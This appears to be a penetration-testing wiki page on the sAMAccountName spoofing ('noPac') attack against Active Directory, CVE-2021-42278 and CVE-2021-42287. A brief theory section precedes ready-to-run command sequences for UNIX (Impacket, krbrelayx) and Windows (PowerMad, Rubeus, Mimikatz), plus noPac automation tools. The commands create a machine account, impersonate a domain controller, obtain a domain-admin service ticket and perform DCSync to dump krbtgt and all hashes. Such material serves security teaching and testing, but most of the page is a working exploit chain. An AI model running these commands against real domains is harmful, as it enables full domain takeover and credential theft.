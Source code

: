 ## Theory
### CVE-2021-42278 - Name impersonation
Computer accounts should have a trailing `$` in their name (i.e. sAMAccountName attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts
### CVE-2021-42287 - KDC bamboozling
When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing $. What happens is that if a TGT is obtained for bob, and the bob user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for bob$ in AD. If the domain controller account `bob$` exists, then bob (the user) just obtained a service ticket for bob$ (the domain controller account) as any other user
## Exploit
### Machine Account
The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the MachineAccountQuota domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing $ -> CVE-2021-42278
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing $)
5. Request a service ticket with `S4U2self` by presenting the TGT obtained before -> CVE-2021-42287
Get access to the domain controller (i.e. DCSync)
=== "UNIX-like"
    On UNIX-like systems, the steps mentioned above can be conducted with

    krbelayx's (Python) addspn script for the manipulation of the computer's SPNs
    Impacket's (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations
    ```bash
    # 0. create a computer account
    addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

    # 1. clear its SPNs
    addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

    # 2. rename the computer (computer -> DC)
    renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

    # 3. obtain a TGT
    getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

    # 4. reset the computer name
    renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

    # 5. obtain a service ticket with S4U2self by presenting the previous TGT
    KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

    # 6. DCSync by presenting the service ticket
    KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
    ```
    [noPac.py](https://github.com/Ridter/noPac) (Python) is an automated alternative that can be used to scan and abuse unpatched targets from a UNIX-like environnment.
    ```bash
    scanner.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP
    noPac.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP --impersonate Administrator -dump
    ```
=== "Windows"
    On Windows systems, the steps mentioned above can be conducted with
    - [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
    - with Rubeus (C#) for the requests of Kerberos TGT and Service Ticket
    - with Mimikatz (C) for the DCSync operation with `lsadump::dcsync`
    ```bash
    # 0. create a computer account
    $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

    # 1. clear its SPNs
    Set-DomainObject -Identity 'ControlledComputer$' -Clear 'serviceprincipalname' -Verbose

    # 2. rename the computer (computer -> DC)
    Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

    # 3. obtain a TGT
    Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

    # 4. reset the computer name
    Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

    # 5. obtain a service ticket with S4U2self by presenting the previous TGT
    Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

    # 6. DCSync
    (mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt
    ```
    [noPac](https://github.com/cube0x0/noPac) (C#) is an automated alternative that can be used to scan and abuse unpatched targets.
    ```bash
    noPac.exe scan -domain domain.local -user "lowpriv" -pass "lowpriv"
    noPac.exe -domain mcafeelab.local -user "lowpriv" -pass "lowpriv" /dc dc.domain.local /mAccount pillemann11 /mPassword pilleman11 /service ldaps /ptt /impersonate Administrator
    (mimikatz) lsadump::dcsync /domain:mcafeelab.local /all
    ```